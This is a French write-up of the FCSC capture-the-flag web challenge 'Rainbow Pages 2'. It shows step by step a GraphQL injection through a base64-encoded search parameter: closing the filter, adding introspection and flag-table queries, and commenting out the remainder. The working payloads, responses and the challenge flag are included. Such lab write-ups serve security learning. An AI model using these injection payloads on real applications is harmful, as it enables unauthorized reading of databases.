

# Rainbow Pages 2 - 250 pts


# Énoncé 
>
>La première version de notre plateforme de recherche de cuisiniers présentait quelques problèmes de sécurité. Heureusement, notre développeur ne compte pas ses heures et a corrigé l'application en nous affirmant que plus rien n'était désormais exploitable. Il en a également profiter pour améliorer la recherche des chefs.	
>
>Pouvez-vous encore trouver un problème de sécurité ?
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5007/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge était le dernier de la catégorie web du FCSC. C'est le grand frère du [RainbowPages](./RainbowPages.md) et le challenge qui m'a pris le plus de temps à résoudre sur ce CTF.


## Résolution

Dans un premier temps, comme d'habitude, j'ai jeté un oeil à la page web, qui ressemble à celle de la première version du site :



Après plusieurs essais, on remarque une première différence, la requête ne se fait plus uniquement sur le champ firstname, mais sur firstname et lastname.

En interceptant la requête avec burp, on remarque également autre chose:

```
GET /index.php?search=YQ== HTTP/1.1
```

En décodant le base64, cela donne **"a"**. Nous avons donc uniquement la valeur de l'input qui passe dans l'URL, contrairement à la première version, ou pour rappel, la requête complète passait, on ne peut donc pas y insérer la requête qu'on veut, il faut trouver un autre moyen de récupérer le flag.

J'ai essayé dans un premier temps d'insérer des payloads comme dans la première version du challenge, en vain, à chaque fois : **Syntax Error**. C'était la partie la plus longue, la technologie m'étant inconnue, il a fallu trouver de la documentation. Après avoir compris la technologie, j'ai enfin trouvé comment était construite une requête qui recherchait par rapport à 2 champs différents.

Comme on sait que la recherche est effectuée parmi les champs firstname et lastname, et qu'on connait déjà le format utilisé dans [RainbowPages](./RainbowPages.md) on peut essayer de la reconstruire à partir des nouveaux éléments afin de comprendre son fonctionnement.

La requête serait de ce format :
```
Query{allCooks(filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}]}) { nodes { firstname, lastname, speciality, price}}}
```

Une fois cette requête trouvée, j'avais la base pour pouvoir réaliser mon injection. Après plusieurs essais, j'ai trouvé le payload permettant de refermer tous les champs ouverts comme ceci, au niveau du premier input :

```
a%"}},{lastname: {like: "%a%"}}]})

// cette requête nous permet de sortir du champ filter.
```

Afin de vérifier que la syntaxe était enfin bonne, j'y ai inséré le reste de la requête de base, et j'ai terminé par **#** qui permet de commenter en graphQL, et donc de ne pas interpréter le reste de la chaine:

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}}}#
```

Avec cette requête, on devrait reçevoir tout comme si nous avions simplement mis "a" dans le champ.

Envoyons la :
```
GET /index.php?search=YSUifX0se2xhc3RuYW1lOiB7bGlrZTogIiVhJSJ9fV19KXtub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlfX19Iw== HTTP/1.1

==>

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```

Après avoir enfin trouvé le bon payload, il faut donc faire une autre requête, à la manière d'un **UNION**. En graphQL, ça se fait de cette manière :

```
query {
  author(limit: 2) {
    id
    name
  }
  article(limit: 2) {
    id
    title
  }
}
```
Il nous faut donc insérer notre requête avant la fin de la query globale, juste avant la dernière } fermante. Essayons avec une requête permettant de lister le schéma de la base, comme dans [RainbowPages](./RainbowPages.md) :

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}} __schema { queryType { fields { name description}}}}#

Nous retourne :

__schema":{"queryType":{"fields":[{"name":"query","description":"Exposes the root query type nested one level down. This is helpful for Relay 1 which can only query top level fields if they are in a particular form."},{"name":"nodeId","description":"The root query type must be a `Node` to work well with Relay 1 mutations. This just resolves to `query`."},{"name":"node","description":"Fetches an object given its globally unique `ID`."},{"name":"allCooks","description":"Reads and enables pagination through a set of `Cook`."},{"name":"allFlagNotTheSameTableNames","description":"Reads and enables pagination through a set of `FlagNotTheSameTableName`."},{"name":"cookById","description":null},{"name":"flagNotTheSameTableNameById","description":null},{"name":"cook","description":"Reads a single `Cook` using its globally unique `ID`."},{"name":"flagNotTheSameTableName","description":"Reads a single `FlagNotTheSameTableName` using its globally unique `ID`."}]}}
```

Après quelques requêtes pour se renseigner sur les champs, leur contenu etc, comme vu dans la v1 (je ne vais pas re-détailler ici) on arrive à construire la requête suivante :

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}} allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#

Nous retourne : 

{"data": [...] "allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```


**FLAG :  _FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}_**
